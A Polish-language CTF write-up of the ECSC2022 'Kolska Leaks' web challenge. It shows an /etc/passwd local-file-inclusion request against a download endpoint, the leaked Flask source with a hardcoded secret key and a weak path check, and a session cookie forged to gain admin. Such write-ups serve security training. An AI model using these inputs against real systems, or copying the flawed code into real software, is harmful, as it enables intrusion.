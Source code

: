 ```yaml
---
title: Kolska Leaks - ECSC2022
author: k1k9
categories: [ECSC2022, web]
tags: [ctf, ecsc2022]
---
```

Punkty: 150
Rozwiązań: 30

Finally. The notorious hacking group got what had been coming to them. Somebody hacked them and released a bunch of their personal files in a info dump called "Kolska Leaks".
Check if they have published anything interesting besides the exfiltrated files:
https://kolska-leaks.ecsc22.hack.cert.pl/

## Rozeznanie
Sama strona prezentuje nam w następujący sposób:
![wyglad_strony](/assets/posts/kolska-leaks/page.png)

Mamy kilka obrazków, gdy otworzymy jakiś obrazek mamy tam taki url ```https://kolska-leaks.ecsc22.hack.cert.pl/download?filename=files/cloud-migration.png```, pierwsze co przyszło mi to Local File Inclusion. Po spróbowaniu ```https://kolska-leaks.ecsc22.hack.cert.pl/download?filename=/etc/passwd``` i o ile udało się potwierdzić LFI to sam plik nie jest interesujący.

## Local File Inclusion
Skoro wiemy, że strona jest podatna na atak LFI to pozostaje dowiedzieć się czego szukać. Po kilku próbach zgadnięcia różnych form flag flag.txt etc. wróciłem do czytania strony.

1. Po wejściu w zakładkę ```Get the flag``` otrzymujemy komunikat ```You're not an admin :(```.
2. Na stronie nie ma żadnego panelu logowania
3. Po wejściu w tę zakładkę jedyne co mogłoby być sprawdzane to ```cookie```.

Na samym dole strony głównej mamy taką informację: ```except Exception as e.``` co może świadczyć o tym że strona postawiona jest na jakimś frameworku pythonowym. Sprawdźmy czy mam rację szybki url ```https://kolska-leaks.ecsc22.hack.cert.pl/download?filename=requirements.txt``` i widzę, że mamy apkę napisaną w flask:
```txt
Flask==2.0.1
gunicorn==20.1.0
```

## Flask
A więc przejdźmy do analizy kodu aplikacji:
```python
from flask import Flask, render_template, request, abort, send_file, session
from flask.sessions import SecureCookieSessionInterface
from pathlib import Path
import json
import os

app = Flask(__name__)
app.config['SECRET_KEY'] = "p5VAmUfaP71Zpy1g"
session_serializer = SecureCookieSessionInterface().get_signing_serializer(app)

ROOT = Path(__file__).parent
FILES = json.loads((ROOT / "files.json").read_text())

@app.route("/")
def get_leaks():
    if "is_admin" not in session:
        session["is_admin"] = 0

    return render_template("leaks.html", files=FILES)

@app.route("/flag")
def get_flag():
    if session.get("is_admin") == 1:
        return "Welcome to our family. " + os.environ["FLAG"]
    else:
        return "You're not an admin :("

@app.route("/download")
def download_file():
    filename = request.args.get("filename")
    if not filename:
        abort(400)
    
    if ".." in filename:
        abort(400)

    try:
        if not (ROOT / filename).is_file():
            abort(404)
    except ValueError:
        abort(400)

    return send_file(filename, attachment_filename=os.path.basename(filename))
```

Widzimy, że korzystamy tutaj z pakietu session, który przechowuje wartość ```is_admin```. Oryginalne ciasteczko wygląda w sposób taki:
![Alt text](/assets/posts/kolska-leaks/org_cookie.png)

Więc pozostaje je zmienić na takie aby wartość ```is_admin``` wynosiła 1 i wysłać request do ```/flag```:
![Alt text](/assets/posts/kolska-leaks/final.png)
